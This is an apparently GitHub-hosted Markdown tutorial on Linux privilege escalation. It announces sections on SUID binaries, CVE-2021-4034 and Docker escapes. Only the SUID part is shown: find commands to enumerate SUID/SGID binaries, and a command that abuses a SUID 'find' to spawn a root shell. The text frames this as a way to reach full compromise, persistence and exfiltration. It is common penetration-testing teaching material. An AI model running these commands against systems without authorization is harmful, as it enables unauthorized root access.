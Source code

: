 # **Linux Privilege Escalation**

## **Advanced Post-Exploitation Techniques and Real-World Exploits**

Privilege escalation is the process of obtaining elevated access to resources that are normally protected from an attacker. After an initial foothold on a Linux target, elevating privileges to root is essential for full system compromise, persistence, lateral movement, and data exfiltration.

This document focuses on three major vectors:

1. Misconfigured SUID/SGID binaries
2. Kernel vulnerability exploitation (specifically CVE-2021-4034)
3. Container escape techniques via Docker misconfigurations

---

## **1. SUID/SGID Binary Exploitation**

### 1.1 Overview

* **SUID (Set-User-ID)**: Executes a binary with the privileges of the file owner (commonly root).
* **SGID (Set-Group-ID)**: Executes a binary with the privileges of the group owner.
* These permission bits are powerful but often dangerous when set on binaries that were not intended for privilege elevation.

### 1.2 Enumeration

The first step in SUID/SGID exploitation is identifying such binaries:

```bash
# Find all SUID binaries
find / -type f -perm -04000 -exec ls -ld {} \; 2>/dev/null

# Find SGID binaries
find / -type f -perm -02000 -exec ls -ld {} \; 2>/dev/null
```

For thorough post-exploitation enumeration, tools like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) can be deployed.

### 1.3 Exploitable SUID Binary Example: `find`

Suppose `find` is discovered with SUID permissions:

```bash
-rwsr-xr-x 1 root root 159432 /usr/bin/find
```

This allows us to execute a command as root:

```bash
find . -exec /bin/sh \; -quit
```
